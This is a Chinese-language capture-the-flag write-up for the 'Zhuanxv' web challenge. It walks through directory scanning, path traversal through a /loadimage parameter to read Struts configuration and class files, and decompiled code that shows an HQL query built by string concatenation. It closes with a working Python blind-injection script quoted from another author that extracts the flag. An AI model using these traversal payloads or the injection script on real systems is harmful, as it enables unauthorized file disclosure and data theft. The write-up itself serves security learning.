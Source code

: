 ```yaml
---
 layout:   post        # 使用的布局（不需要改）
 title:   Zhuanxv   # 标题 
 subtitle:  攻防世界 #副标题
 date:    2020-08-14    # 时间
 author:   yanmie       # 作者
 header-img: img/.jpg  ##标签这篇文章标题背景图片
 catalog: true            # 是否归档
 tags:                
    - CTF

--- 
```



目录扫描

![aRLFVs.png](https://s1.ax1x.com/2020/08/07/aRLFVs.png)
	
	
访问：`http://220.249.52.133:51786/list`

![aRL4ds.png](https://s1.ax1x.com/2020/08/07/aRL4ds.png)

爆破不上去，万能密码也没用。

右键源代码，他这里加载背景图片的方式很诡异。

![aROZTA.png](https://s1.ax1x.com/2020/08/07/aROZTA.png)

![aRxtDU.png](https://s1.ax1x.com/2020/08/07/aRxtDU.png)


下载图片也没啥特别之处，

尝试可能有文件读取漏洞，

这里还发现一个`JSESSIONID`,那么这个站应该是[jsp](https://baike.baidu.com/item/JSP/141543?fr=aladdin)写的。

![aRxBCR.png](https://s1.ax1x.com/2020/08/07/aRxBCR.png)

读取`web.xml`

	/loadimage?fileName=./../../WEB-INF/web.xml

还是下载图片操作。。。，(也可burp抓包repeater看回显)记事本打开发现

```
<?xml version="1.0" encoding="UTF-8"?>
<web-app id="WebApp_9" version="2.4"
         xmlns="http://java.sun.com/xml/ns/j2ee"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://java.sun.com/xml/ns/j2ee http://java.sun.com/xml/ns/j2ee/web-app_2_4.xsd">
    <display-name>Struts Blank</display-name>
    <filter>
        <filter-name>struts2</filter-name>
        <filter-class>org.apache.struts2.dispatcher.ng.filter.StrutsPrepareAndExecuteFilter</filter-class>
    </filter>
    <filter-mapping>
        <filter-name>struts2</filter-name>
        <url-pattern>/*</url-pattern>
    </filter-mapping>
    <welcome-file-list>
        <welcome-file>/ctfpage/index.jsp</welcome-file>
    </welcome-file-list>
    <error-page>
        <error-code>404</error-code>
        <location>/ctfpage/404.html</location>
    </error-page>
</web-app>
```

发现用了struts过滤器,尝试读`struts.xml`

	/loadimage?fileName=./../../WEB-INF/classes/struts.xml

得到

```
<?xml version="1.0" encoding="UTF-8"?>

<!DOCTYPE struts PUBLIC
        "-//Apache Software Foundation//DTD Struts Configuration 2.3//EN"
        "http://struts.apache.org/dtds/struts-2.3.dtd">
<struts>
	<constant name="strutsenableDynamicMethodInvocation" value="false"/>
    <constant name="struts.mapper.alwaysSelectFullNamespace" value="true" />
    <constant name="struts.action.extension" value=","/>
    <package name="front" namespace="/" extends="struts-default">
        <global-exception-mappings>
            <exception-mapping exception="java.lang.Exception" result="error"/>
        </global-exception-mappings>
        <action name="zhuanxvlogin" class="com.cuitctf.action.UserLoginAction" method="execute">
            <result name="error">/ctfpage/login.jsp</result>
            <result name="success">/ctfpage/welcome.jsp</result>
        </action>
        <action name="loadimage" class="com.cuitctf.action.DownloadAction">
            <result name="success" type="stream">
                <param name="contentType">image/jpeg</param>
                <param name="contentDisposition">attachment;filename="bg.jpg"</param>
                <param name="inputName">downloadFile</param>
            </result>
            <result name="suffix_error">/ctfpage/welcome.jsp</result>
        </action>
    </package>
    <package name="back" namespace="/" extends="struts-default">
        <interceptors>
            <interceptor name="oa" class="com.cuitctf.util.UserOAuth"/>
            <interceptor-stack name="userAuth">
                <interceptor-ref name="defaultStack" />
                <interceptor-ref name="oa" />
            </interceptor-stack>

        </interceptors>
        <action name="list" class="com.cuitctf.action.AdminAction" method="execute">
            <interceptor-ref name="userAuth">
                <param name="excludeMethods">
                    execute
                </param>
            </interceptor-ref>
            <result name="login_error">/ctfpage/login.jsp</result>
            <result name="list_error">/ctfpage/welcome.jsp</result>
            <result name="success">/ctfpage/welcome.jsp</result>
        </action>
    </package>
</struts>
```

发现一个看起来和登陆有关的类UserLoginAction,构造payload下载:

![aWSzuV.png](https://s1.ax1x.com/2020/08/07/aWSzuV.png)

	/loadimage?fileName=./../../WEB-INF/classes/com/cuitctf/action/UserLoginAction.clas

用JD反编译,截取部分有用的代码:

```
  public boolean userCheck(User user) {
 List<User> userList = this.userService.loginCheck(user.getName(), user.getPassword());
 if (userList != null && userList.size() == 1) {
   return true;
 }
 addActionError("Username or password is Wrong, please check!");
 return false;
}

```

但是找不到loginCheck所在的类…于是借鉴了大佬的wp,发现还有个applicationContext.xml
在其中找到类UserServiceImpl:


```
    public List <User> loginCheck(String name, String password) {
        name = name.replaceAll(" ", "");
        name = name.replaceAll("=", "");
        Matcher username_matcher = Pattern.compile("^[0-9a-zA-Z]+$").matcher(name);
        Matcher password_matcher = Pattern.compile("^[0-9a-zA-Z]+$").matcher(password);
        if (password_matcher.find()) {
            return this.userDao.loginCheck(name, password);
        }
        return null;
    }

```

是登陆语句的过滤规则,在UserDaoImpl.class中找到:


```
 public List < User > loginCheck(String name, String password) {
        return getHibernateTemplate().find("from User where name ='" + name + "' and password = '" + password + "'");  
    }

```

接下来可以写一个盲注脚本,附大佬脚本

https://xz.aliyun.com/t/2405#toc-27

```
import requests
s=requests.session()

FLAG=''
for i in range(1,50):
    p=''
    for j in range(1,255):
        payload="(select%0Aascii(substr(id,"+str(i)+",1))%0Afrom%0AFlag%0Awhere%0Aid<2)<'"+str(j)+"'"
        #print payload
        url="http://220.249.52.133:58284/zhuanxvlogin?user.name=admin'%0Aor%0A"+payload+"%0Aor%0Aname%0Alike%0A'admin&user.password=1"
        r1=s.get(url)
        #print url
        #print len(r1.text)
        if len(r1.text)>20000 and p!='':
            FLAG+=p
            print i,FLAG
            break
        p=chr(j)
```

![dVV1J0.png](https://s1.ax1x.com/2020/08/16/dVV1J0.png)